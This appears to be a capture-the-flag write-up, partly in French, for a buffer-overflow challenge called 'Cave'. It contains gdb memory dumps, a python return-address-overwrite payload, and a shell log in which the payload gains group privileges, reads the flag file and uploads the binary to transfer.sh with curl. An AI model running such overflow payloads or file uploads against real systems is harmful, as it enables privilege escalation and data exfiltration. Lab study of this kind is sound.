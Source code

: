 Cave

Description

You stumbled upon a cave! I've heard some caves hold secrets.. can you find the secrets hidden within its depths?







char buf[16];

break *0x08048591 main
break *0x0804856d   strcpy

# du fait qu'on passe le paramètre par ligne de commande
r aaaaaaaabbbbbbbbcccccccc

Destination 
0xffffd250 : 00 90 fa f7 00 90 fa f7 00 00 00 00 6b 3c e0 f7   ............k<..
0xffffd260 : fc 93 fa f7 00 00 00 00 88 d2 ff ff c2 85 04 08   ................


0xffffd250 : 61 61 61 61 61 61 61 61 62 62 62 62 62 62 62 62   aaaaaaaabbbbbbbb
0xffffd260 : 63 63 63 63 63 63 63 63 00 d2 ff ff c2 85 04 08   cccccccc........

fin de chaine en C 00



char *strcpy(char *s1, const char *s2); This function copies s2 into s1.

0804850b shell

"aaaaaaaabbbbbbbbccccccc"+"\xff\xff\xd2\x88"+"\x0b\x85\x04\x08"



`python -c 'print "aaaaaaaabbbbbbbbcccccccc"+"\x88\xd2\xff\xff"+"\x0b\x85\x04\x08"'`

dd 0xffffd210

0xffffd210 : 00 90 fa f7 00 90 fa f7 00 00 00 00 6b 3c e0 f7   ............k<..
0xffffd220 : fc 93 fa f7 00 00 00 00 48 d2 ff ff c2 85 04 08   ........H.......


[adversary ~]$ ls
cave
[adversary ~]$ ls -al
total 124
drwxr-xr-x. 1 adversary adversary  4096 Sep 13 08:23 .
drwxr-xr-x. 1 root      root       4096 Sep 11 11:01 ..
-rw-r--r--. 1 adversary adversary   220 May 15  2017 .bash_logout
-rw-r--r--. 1 adversary adversary  3526 May 15  2017 .bashrc
drwxr-xr-x. 2 root      root       4096 Sep 11 11:01 cave
drwxr-xr-x. 1 adversary adversary  4096 Sep 11 10:37 .oh-my-zsh
-rw-r--r--. 1 adversary adversary   675 May 15  2017 .profile
-rw-r--r--. 1 adversary adversary   101 Mar 12  2018 .vimrc
-rw-r--r--. 1 adversary adversary 40558 Sep 13 08:20 .zcompdump-dd17657d43c3-5.3.1
-rw-------. 1 adversary adversary    40 Sep 13 08:23 .zsh_history
-rw-r--r--. 1 adversary adversary   308 Mar 12  2018 .zshrc
[adversary ~]$ ls -l
total 8
drwxr-xr-x. 2 root root 4096 Sep 11 11:01 cave
[adversary ~]$ cd cave
[adversary ~/cave]$ ls -l
total 36
-r--r-----. 1 root caveman   48 Sep 11 11:01 flag.txt
-rw-r--r--. 1 root root     106 Sep 11 11:01 Makefile
-rwxr-sr-x. 1 root caveman 7496 Sep 11 11:01 shout
-rw-r--r--. 1 root root     501 Sep 11 11:01 shout.c
[adversary ~/cave]$ curl --upload-file shout https://transfer.sh/shoot
https://transfer.sh/QqV4r/shoot%[adversary ~/cave]$ ./shoot `python -c 'print "aaaaaaaabbbbbbbbcccccccc"+"\x88\xd2\xff\xff"+"\x0b\x85\x04\x08"'`
zsh: no such file or directory: ./shoot
[adversary ~/cave]$ ./shout `python -c 'print "aaaaaaaabbbbbbbbcccccccc"+"\x88\xd2\xff\xff"+"\x0b\x85\x04\x08"'`
The cave echoes.. aaaaaaaabbbbbbbbcccccccc����
                                              �
sh-4.4$ ls
flag.txt  Makefile  shout  shout.c
sh-4.4$ cd flag.txt
sh: cd: flag.txt: Not a directory
sh-4.4$ cat flag.txt
IceCTF{i_dont_think_cavemen_overflowed_buffers}
sh-4.4$ id
uid=1000(adversary) gid=1337(caveman) groups=1337(caveman)
sh-4.4$